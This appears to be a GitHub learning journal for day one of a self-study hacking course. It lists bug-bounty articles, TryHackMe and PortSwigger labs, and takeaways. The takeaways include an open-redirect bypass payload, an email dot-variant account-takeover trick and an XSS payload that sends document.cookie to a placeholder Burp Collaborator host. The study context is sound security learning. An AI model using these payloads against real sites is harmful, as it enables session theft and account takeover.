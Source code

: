 # Day-1 (30-Days-Of-Hacking)

### 1. Read 3 Article: [DONE]

- https://medium.com/@tushar.tilak.sharma/a-tale-of-open-redirection-to-stored-xss-6ad426ae9d43
- https://medium.com/techiepedia/p5-to-p1-intresting-account-takeover-6e59b879494b
- https://medium.com/@tushar.tilak.sharma/how-i-turned-a-self-xss-into-one-click-account-takeover-through-bad-business-logic-ff003c30e96

#### Learned:

1. From article 1:
   - Got to know Open Direcction Bypass Payload: target. com/<>//google.com

2. From Article 2:
   - ATO Methadology: So I Sign up with an email: abc.ishack@gmail.com. Again I tried to sign up with the email: abcis.hack@gmail.com[ Mind the place of [.] ]. And I was able to sign up with the 2 accounts.

3. From Article 3:
   - XSS Payload to Steal Cookie : ‘“><img src=x onerror=fetch(‘//(your burp collab id here).burpcollaborator.net/?c=’%2Bdocument.cookie)>

### 2. TryHackMe Labs: [DONE]

- [X] Solved Task 1, Task 2, Task 3, Task 4, Task 5 Of **METASPLOIT** : https://tryhackme.com/room/rpmetasploit 
- [X] Solved Task 1, Task 2, Task 4, Task 5, Of : **Dirty Pipe** : https://tryhackme.com/room/dirtypipe  (Unable to get root flag Will try Next day)

### 3. PortSwigger Labs: [DONE]

- [X] **Solved Directory traversal**
 -  Lab: File path traversal, simple case (https://portswigger.net/web-security/file-path-traversal/lab-simple)
 -  Lab: File path traversal, traversal sequences blocked with absolute path bypass (https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass)

### 4. Youtube Video: {DONE]

- Watched : OrwaGodFather Part 1 Video : https://www.youtube.com/watch?v=06JYV06y-hU
